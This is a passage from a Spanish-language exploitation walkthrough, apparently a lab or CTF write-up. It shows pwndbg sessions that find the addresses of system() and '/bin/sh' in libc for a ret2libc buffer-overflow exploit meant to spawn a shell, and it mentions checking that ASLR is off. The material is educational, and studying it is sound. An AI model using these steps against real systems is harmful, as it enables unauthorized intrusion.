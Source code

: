 > Pa leer: [Mi primer buffer overflow](https://ironhackers.es/tutoriales/introduccion-al-exploiting-parte-3-mi-primer-buffer-overflow-stack-5-protostar/).

Para ejecutar esto, debemos buscar si existe alguna función importante en memoria, encontramos este recurso que nos explica detalladamente lo peligrosas que pueden ser las funciones del propio programa/librería:

* [Binary Exploitation Data-Execution-Prevention](https://medium.com/swlh/binary-exploitation-data-execution-prevention-cc47edf2033b#e300).

Nos indican que debemos buscar la función `system()`, que ejecuta comandos en el sistema:

```bash
pwndbg> print system
$1 = {int (const char *)} 0xf7d7ffa0 <__libc_system>
```

Bien, tenemos una dirección en memoria de la función `system()`. Ahora debemos encontrar alguna referencia hacia "`/bin/bash`" o "`/bin/sh`", para asi obtener una **Shell** cuando ejecutemos nuestro exploit:

```bash
pwndbg> find "/bin/bash"
Argument required (expression to compute).
```

Siguiendo [esta descripción de **find**](https://sourceware.org/gdb/current/onlinedocs/gdb/Searching-Memory.html), debemos pasarle dos argumentos más para que haga la búsqueda de memoria correctamente: 

> find [/sn] start_addr, +len, val1 [, val2, …]

Entonces podemos indicarle que la dirección de inicio sea la que encontramos (`system`) (asi solo no sirve, debemos agregarle `+len`) y le pasamos que el tamaño sea de **8** bytes:

```bash
pwndbg> find 0xf7d7ffa0,+12345678,"/bin/bash"
warning: Unable to access 16000 bytes of target memory at 0xf7f21f29, halting search.
Pattern not found.
```

Parece que ya está funcionando, busquemos `/bin/sh`:

```bash
pwndbg> find 0xf7d7ffa0,+12345678,"/bin/sh"
0xf7ec733c
warning: Unable to access 16000 bytes of target memory at 0xf7f210c4, halting search.
1 pattern found.
```

Perfecto, encontramos una dirección en memoria donde se hace referencia a `/bin/sh`, también nos la guardamos :) Vemos que tenemos y vamos organizando el script:

* Dirección función **system()**, que nos servirá para ejecutar la Shell (`/bin/sh`): `0xf7d7ffa0`.
* Dirección llamado `/bin/sh`: `0xf7ec733c`.

Para que las direcciones no sean dinámicas, debemos validar el [ASLR](https://es.wikipedia.org/wiki/Aleatoriedad_en_la_disposici%C3%B3n_del_espacio_de_direcciones) que esté desactivado:

**(Esto en mi máquina, pero también debemos validarlo en el sistema vulnerable.)**
